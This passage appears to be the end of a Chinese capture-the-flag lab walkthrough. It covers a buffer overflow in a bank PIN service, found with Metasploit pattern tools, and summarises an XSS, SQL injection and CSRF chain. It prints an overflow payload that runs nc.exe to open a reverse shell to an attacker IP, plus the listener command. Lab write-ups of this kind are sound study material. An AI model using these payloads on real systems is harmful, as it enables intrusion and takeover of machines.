 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用 msf-pattern_create 生成40位随机数值并作为金额进行提交

```
msf-pattern_create -l 40  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功拿到偏移量为32

```
msf-pattern_offset -q 0Ab1  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)使用 python 输出偏移字符+用于反弹shell的payload

```
python -c 'print "A"*32 + "\\Users\\Cortin\\AppData\\Local\\Temp\\nc.exe -e cmd.exe 10.10.14.16 4433"'  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在本地监听4433端口

```
rlwrap nc -nvlp 4433  

```

运行程序输入 payload![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功拿到系统权限![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)在管理员用户 admin 桌面寻找第二个flag

```
dir c:\Users\admin\Desktop  
type c:\Users\admin\Desktop\root.txt  

```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)成功拿到第二个flag

**总结：在站点中注册账户，登陆后查看http请求包发现Cookie编码方式为base64，同时在转账的评论处发现XSS漏洞，提交带有XSS的转账信息在管理员访问后可获取其Cookie信息，对Cookie进行解码后拿到明文。登陆管理界面，发现其中存在SQL注入漏洞，通过SQL注入拿到站点用户密码以及数据库管理员root密码。XSS和CSRF联动使管理员执行反弹shell命令，从而获取到目标用户权限。在靶机中发现异常端口910，其对应程序为bankv2.exe，连接该端口提示我们需要输入PIN码（4位数字），由于靶机上没有python环境，无法执行爆破脚本。因此可建立隧道帮助我们爆破PIN码并成功进入。经过测试后发现该程序存在缓冲区溢出漏洞，利用该漏洞执行反弹shell可成功获取系统权限。**

  

原文地址：https://www.freebuf.com/articles/system/325053.html